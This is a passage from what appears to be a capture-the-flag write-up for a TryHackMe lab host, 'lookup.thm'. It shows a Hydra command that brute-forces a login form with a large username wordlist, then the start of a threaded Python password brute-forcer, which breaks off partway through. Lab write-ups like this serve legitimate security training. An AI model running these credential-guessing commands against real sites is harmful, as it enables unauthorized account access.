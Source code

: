 ![Pasted image 20241202142821.png](../../IMAGES/Pasted%20image%2020241202142821.png)

We got two usernames: `admin` and `jose`

#### Output
---


### Hydra
---


```ad-note

#### Hydra
---

`sudo hydra -VI -t 64 -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p 'test' lookup.thm http-post-form '/login.php:username=^USER^&password=^PASS^:F=Wrong username or password. Please try again.' | grep -Eiv 'ATTEMPT'`

#### Output
---

Got the same usernames as before, let's bruteforce the password
```


For brute forcing the password, we can use the following Python code:

```python
import requests
import sys
from tqdm import tqdm
import threading

valid_passwords = []
invalid_passwords = []
lock = threading.Lock()


def check_user_password(url, user, password):
 invalid_errors = [
 "Wrong password. Please try again.",
 "Wrong username or password. Please try again."
 ]
 headers = {
 'Host': 'lookup.thm',
 'User-Agent': 'Intigriti',
 'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,'
				 'image/svg+xml,*/*;q=0.8',
 'Accept-Language': 'en-US,en;q=0.5',
 'Accept-Encoding': 'gzip, deflate, br',
 'Content-Type': 'application/x-www-form-urlencoded',
 'Origin': 'http://lookup.thm/',
 'Connection': 'keep-alive',
 'Referer': 'http://lookup.thm/login.php',
 'Upgrade-Insecure-Requests': '1',
 'Priority': 'u=0, i',
 }

 data = {
```